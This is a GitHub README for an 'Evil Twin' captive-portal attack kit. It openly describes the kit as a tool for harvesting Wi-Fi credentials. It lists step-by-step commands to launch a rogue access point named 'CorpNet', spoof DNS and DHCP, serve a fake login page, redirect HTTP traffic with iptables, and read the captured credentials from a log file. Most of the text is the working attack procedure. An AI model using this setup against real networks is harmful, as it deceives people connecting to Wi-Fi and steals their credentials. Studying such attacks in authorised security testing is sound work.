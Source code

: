 
# ☠️ Evil Twin Captive Portal

**Evil Twin + Captive Portal** attack for realistic credential harvesting on open or enterprise Wi-Fi.

This repo sets up a rogue access point, DNS/DHCP spoofing, and a fake login page to phish Wi-Fi credentials.

## ⚙️ Requirements

- Linux (Kali, Ubuntu, etc.)
- `hostapd`, `dnsmasq`, `php`, `python3`
- Compatible Wi-Fi card in AP mode

---

## 🗂️ Directory Structure

```
Captive_Portal/
├── captive_portal/
│   ├── index.html       ← Fake login portal (responsive)
│   ├── submit.php       ← Credential logger
├── hostapd.conf         ← Rogue AP config
├── dnsmasq.conf         ← DHCP + DNS Spoof config
├── creds.txt            ← Created at runtime
```

---

## 🚀 Step-by-Step Setup

### 1. Prepare the environment

```bash
sudo apt update
sudo apt install hostapd dnsmasq php
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
```

> Replace `wlan0` with your real AP-capable wireless interface.

---

### 2. Launch the Rogue AP

```bash
sudo hostapd configs/hostapd.conf
```

SSID: `CorpNet`

---

### 3. Start DHCP and DNS spoofing

```bash
sudo dnsmasq -C configs/dnsmasq.conf
```

---

### 4. Run the captive portal web server

```bash
cd captive_portal/
sudo php -S 0.0.0.0:80
```

---

### 5. Enable IP forwarding and redirect HTTP traffic

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 80
```

---

## 📲 Test It

- Connect a mobile phone or test device to `CorpNet`
- Try to open any website
- You'll be redirected to the fake login portal
- Enter fake credentials to test the logger

---

## 🔐 View Captured Credentials

```bash
cat creds.txt
```

---

## 📸 Screenshot (optional)

Add a screenshot of the login portal here.

---
